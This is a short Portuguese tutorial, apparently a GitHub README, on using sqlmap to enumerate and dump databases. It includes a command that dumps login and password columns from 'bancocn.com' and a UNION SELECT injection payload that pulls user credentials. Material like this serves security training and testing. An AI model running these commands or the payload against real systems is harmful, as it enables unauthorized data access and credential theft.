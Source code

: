 # Como usar SQLMAP 💉🗺️🌐
## Flags:
- "-U ou -r" (Faz requisição http para o site ou lê cabeçalho com id de sessão armazenado para conexão que bypassa Web Application Firewall)
- "-D" (nome database)
- "-T" (nome tabela)
- "-C" (nome coluna)
- "--dbs" (lista bancos de dados)
- "--tables" (lista tabelas)
- "--columns" (lista colunas)
- "--dump" (faz dump das informações das colunas)

## Sintaxe
"sqlmap -u (link) --dbs" <strong>OU</strong> "sqlmap -r (header) --dbs" <br>
"sqlmap -u (link) -D (banco de dados selecionado)" <br>
"sqlmap -u (link) -D (banco de dados selecionado) --tables (lista tabelas)" <br>
"sqlmap -u (link) -D (banco de dados selecionado) -T (nome da tabela selecionada)" <br>
"sqlmap -u (link) -D (banco de dados selecionado) -T (nome da tabela selecionada) --columns (lista colunas)" <br>
"sqlmap -u (link) -D (banco de dados selecionado) -T (nome da tabela selecionada) -C (seleciona colunas, separe as colunas por vírgulas) --dump (para exibí-las)" <br>

## Exemplo
<strong>sqlmap -u [http://bancocn.com] -D bancocn -T users -C login,password --dump</strong>

## Exploitation BancoCN SQL Injection
<code>-1 UNION SELECT 1,2,group_concat(id,";",login,";",password) FROM users</code>
### Substitua a partir do número 1 da URL, por essa instrução de consulta SQL, onde serão retornados na tela os dados da tabela users do Banco CN, esta instrução solicita de forma concatenada as requisições dos campos id, login e password da tabela USERS.
